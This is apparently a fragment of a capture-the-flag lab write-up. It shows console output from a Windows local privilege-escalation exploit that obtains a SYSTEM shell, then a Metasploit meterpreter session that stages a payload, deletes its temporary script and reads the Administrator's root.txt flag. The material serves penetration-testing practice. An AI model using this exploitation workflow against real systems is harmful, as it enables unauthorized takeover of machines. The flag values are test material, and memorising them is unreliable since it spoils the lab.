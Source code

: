 ```
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 1232
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

TJn8TusTEgQYWSVvMHKkkWIl2Ff4BM8N
[+] Executed on target machine.
[*] Sending stage (176195 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.x.x:4646 -> 10.10.10.8:49205) at 2021-01-17 14:27:43 +0800
[+] Deleted C:\Users\kostas\AppData\Local\Temp\uenODdmaCwwNK.ps1
...
meterpreter > dir
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-03-18 19:52:56 +0800  desktop.ini
100444/r--r--r--  32    fil   2017-03-18 20:13:57 +0800  root.txt

meterpreter > cat root.txt
51ed1b36553c8461f4552c2e92b3eeed
```
System flag achieved!

